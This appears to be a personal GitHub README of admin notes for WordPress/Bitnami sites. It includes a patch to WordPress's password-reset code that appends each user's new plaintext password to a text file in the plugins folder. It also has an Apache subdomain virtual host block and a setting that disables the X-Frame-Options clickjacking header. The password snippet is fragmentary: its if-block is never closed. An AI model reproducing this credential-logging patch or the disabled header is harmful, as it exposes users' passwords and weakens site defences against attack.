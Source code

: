 # MREG
Backups and How Tos for MREG sites


# For plaintext passwords
* @param WP_User|WP_Error $user   WP_User object if the login and reset key match. WP_Error object otherwise
*/
	do_action( 'validate_password_reset', $errors, $user );
#FIRES ON RESET PAGE LOAD -MORGAN
	
	if ( ( ! $errors->get_error_code() ) && isset( $_POST['pass1'] ) && !empty( $_POST['pass1'] ) ) {
		reset_password($user, $_POST['pass1']);
#FIRES AFTER NEW PASSWORD RESET ACEPTED -MORGAN
#BEGINING OF MY CODE -MORGAN
		$my_file = 'C:\Bitnami\wordpress-4.9.1-0\apps\wordpress\htdocs\wp-content\plugins\text.txt';	
		$handle = fopen($my_file, 'a') or die('Cannot open file:  '.$my_file);	
		$myvariable1 = "Hello World1";
		$myvariable2 = "Hello World2";
		$myvariable3 = "$myvariable1, $myvariable2";
		$myvariable4 = $_POST['pass1'];
		fwrite($handle, "$myvariable4");
#END OF MY CODE -MORGAN


#For emby user create 
For iredmail
Open ports at cloud level
For subdoains
Edit /opt/bitnami/acpache/conf/bitnami/bitnami.conf
<VirtualHost _default_:80>
  DocumentRoot "/opt/bitnami/apps/wordpress/htdocs/kexow"
  ServerName kexow.kexow.com
  
      <Directory "/opt/bitnami/apps/wordpress/htdocs/kexow">
        Options Includes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>
</VirtualHost>
For to remove x frame same origin 
// X-Frame-Options HTTP header value sent to prevent from Clickjacking.
// Possible values: sameorigin|deny|allow-from <uri>.
// Set to false in order to disable sending the header.
$config['x_frame_options'] = false;
